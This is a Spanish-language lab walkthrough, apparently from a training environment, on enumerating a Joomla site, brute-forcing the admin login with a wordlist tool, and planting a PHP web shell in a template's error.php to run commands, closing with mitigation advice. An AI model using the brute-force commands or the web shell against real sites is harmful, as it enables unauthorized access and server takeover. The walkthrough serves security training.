

## ¿Que es Joomla?

[Joomla](https://www.joomla.org/), fue lanzado en agosto de 2005, es otro CMS gratuito y de código abierto que se utiliza para foros de debate, galerías de fotos, comercio electrónico, comunidades de usuarios y más.  

## ¿Por que es interesante saber enumerar y atacar un sistema Joomla?
-   Joomla representa el 3,5% de la cuota de mercado de CMS
-   Joomla es 100% gratuito
-   Está escrito en PHP y utiliza MySQL en el backend. 
-   Hay hasta 2,5 millones de sitios en Internet que utilizan Joomla. 
-   Joomla impulsa el 3% de todos los sitios web en Internet, casi 25.000 del millón de sitios más importantes del mundo (solo el 10% del alcance de WordPress)
-   Algunas organizaciones notables que utilizan Joomla incluyen eBay, Yamaha, la Universidad de Harvard y el gobierno del Reino Unido.
  
Se pueden ver estadisticas de uso de Joomla en [su web de estadísticas de uso](https://developer.joomla.org/about/stats.html) 


## Enumeracion

Para la enumeracion y ataque voy a usar una web joomla controlada situada en inlanefreight.local detras de la IP 10.129.111.9


Para poder realizar correctamente la enumeracion en local añado la IP y el vhosts a /etc/hosts con los comandos:

```bash
IP=10.129.111.9
printf "%s\t%s\n\n" "$IP" "app.inlanefreight.local" | sudo tee -a /etc/hosts

```


A menudo podemos identificar a Joomla mirando el código fuente de la página, lo que nos indica que estamos tratando con un sitio Joomla.

```
curl -s https://app.inlanefreight.local | grep Joomla
```

.png>)

Puedo invstigar el fichero robots.txt para ver que contiene y si esta ocultando directorios interesantes o informacion relevante.

.png>)

A veces es posible verificar la version de Joomla en el README.txt

.png>)


Incluso a veces nos la puede mostrar el fichero joomla.xml

.png>)


El  archivo `cache.xml` puede obtener la versión aproximada. Se encuentra en `plugins/system/cache/cache.xml`.

.png>)

### Enumeracion con droopescan

Droopescan es un escáner basado en complemento que funciona para SilverStripe, WordPress y Drupal con funcionalidad limitada para Joomla y Moodle.

Para usarlo hay que clonar el repositorio Git e instalarlo manualmente o con `pip`

.png>)

Ejecutemos un escaneo y veamos qué encontramos.

```
droopescan scan joomla --url http://dev.inlanefreight.local/
```

.png>)

No se ha obtenido mucha información aparte del posible número de versión.

También podemos probar [JoomlaScan](https://github.com/drego85/JoomlaScan) , que es una herramienta de Python inspirada en la herramienta [Joomscan](https://github.com/OWASP/joomscan)`JoomlaScan` OWASP, que ya no existe. 

JoomlaScan requiere Python 2.7 para ejecutarse

La cuenta de administrador predeterminada en las instalaciones de Joomla es `admin`, pero la contraseña se establece en el momento de la instalación.

Suele dejarse el usuario `admin` en las instalaciones, por lo que si la cuenta está configurada con una contraseña muy débil/común y podemos ingresar con algunas conjeturas o con un ataque de fuerza bruta leve.

Voy a usar [Joomla-Bruteforce](https://github.com/ajnik/joomla-bruteforce) para intentar forzar el inicio de sesión.

Lo primero es instalarlo:

```sh
sudo apt update
sudo apt install -y git python3 python3-venv python3-pip
git clone https://github.com/ajnik/joomla-bruteforce.git
cd joomla-bruteforce
python3 -m venv .venv
source .venv/bin/activate
python -m pip install -U pip
python -m pip install requests beautifulsoup4
python joomla-brute.py -h
```

.png>)

Una vez instalado puedo probar su efectividad usando un diccionario basico y suponiendo que el usuario administrador sigue siendo `admin`

```sh
sudo python3 joomla-brute.py -u http://app.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```

.png>)

Si accedo al panel de control de Joomla que esta en /administrator/


y uso las credenciales anteriores puedo comprobar como es posible el acceso.


Si accedemos y recibimos el error que se muestra: "An error has occurred. Call to a member function format() on null" solo tenemos que ir a "http://dev.inlanefreight.local/administrator/index.php?option=com_plugins" y deshabilitar el plugin  "Quick Icon - PHP Version Check" y volver a cargar para que se muestre el panel de control de forma correcta. 


Al volver a cargar la pagina ya se muestra el panel de control de forma correcta. 



Una vez en el panel de control podemos navegar por el sistema de directorios haciendo uso de inyeccion de codigo en ficheros del tema.


Elijo el tema que esta activo y sobre el voy a un documento de plantilla de error. 

Como se que Joomla se basa en PHP busco un shell inverso en la web [revshells.com](www.revshells.com) y lo inserto en la web error.php


```sh
if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die;}
```


.png>)

Si consulto la variable cmd=pwd para que me de la ruta donde esta ejecutandose el comando obtengo:

.png>)

Por lo que el ataque ha sido valido. Lo que me puede permitir llegar a consultar contenido de ficheros y obtener informacion.

.png>)


Con la enumeración básica completada, se probaron herramientas automatizadas (Droopescan y alternativas orientadas a Joomla) y se validó un vector habitual: el acceso al panel /administrator/ aprovechando el uso frecuente del usuario admin junto a credenciales débiles/diccionarios comunes. Tras obtener acceso al backend y estabilizar la interfaz (deshabilitando el plugin “Quick Icon - PHP Version Check” cuando provoca error), se demostró el impacto real mediante la modificación de una plantilla activa para introducir código PHP y lograr ejecución de comandos en el servidor, confirmando el control del contexto web.

La lección clave es que Joomla no suele caer por “magia”, sino por una cadena de fallos básicos: exposición de ficheros y rutas informativas, higiene deficiente de credenciales en el panel de administración y permisos/capacidades del backend que permiten editar plantillas y convertir un acceso de administrador en RCE. La mitigación pasa por endurecer /administrator/ (MFA, restricciones por IP/VPN), eliminar el usuario admin o impedir su uso, aplicar políticas de contraseñas robustas, deshabilitar la edición de plantillas desde el panel, mantener Joomla y extensiones al día, y reducir exposición de ficheros/versionado accesibles públicamente.

